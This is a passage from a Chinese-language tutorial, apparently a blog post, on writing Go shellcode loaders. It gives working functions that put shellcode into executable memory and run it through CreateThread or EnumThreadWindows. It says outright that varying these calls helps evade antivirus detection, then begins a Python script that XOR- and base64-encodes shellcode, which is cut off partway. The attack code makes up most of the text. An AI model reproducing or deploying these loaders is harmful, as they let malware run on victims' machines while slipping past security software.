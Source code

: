 ## CreateThread

除了通过 SyscallN 调用 Shellcode 还可以通过 CreateThread API 来调用 Shellcode，实现如下

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    fCreateThread, _        := mKernel32.FindProc("CreateThread")
    fWaitForSingleObject, _ := mKernel32.FindProc("WaitForSingleObject")

    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    TtdAddr, _, _ := fCreateThread.Call(0, 0, Ptr1, 0, 0, 0)
    fWaitForSingleObject.Call(TtdAddr, 0xFFFFFFFF)
}
```

## EnumThreadWindows

也可以使用 `EnumThreadWindows` API 来调用 Shellcode

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    mUser32, _ := syscall.LoadDLL("user32.dll")

    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    fenumThreadWindows, _ := mUser32.FindProc("EnumThreadWindows")
    fenumThreadWindows.Call(0, Ptr1, 0)
}
```

有了更多的 API 调用 Shellcode 就可以一定程度上避免被杀软识别为恶意软件。

除了多样化的 API 调用 Shellcode 还需要对 Shellcode 进行编码，作为调试阶段，可以使用 Python 来制作 base64+ 多字节 xor 转换的 Shellcode。代码如下

```plain
import os
import sys
import argparse
import random
import string
import base64

def generate_random_string(length):
    characters = string.ascii_letters + string.digits
    random.seed()
    random_string = ''.join(random.choice(characters) for _ in range(length))
    return random_string

def xor_encrypt(plaintext, key):
    ciphertext = bytearray()
    key_length = len(key)
    for i, byte in enumerate(plaintext):
        key_byte = key[i % key_length]
        encrypted_byte = byte ^ key_byte
```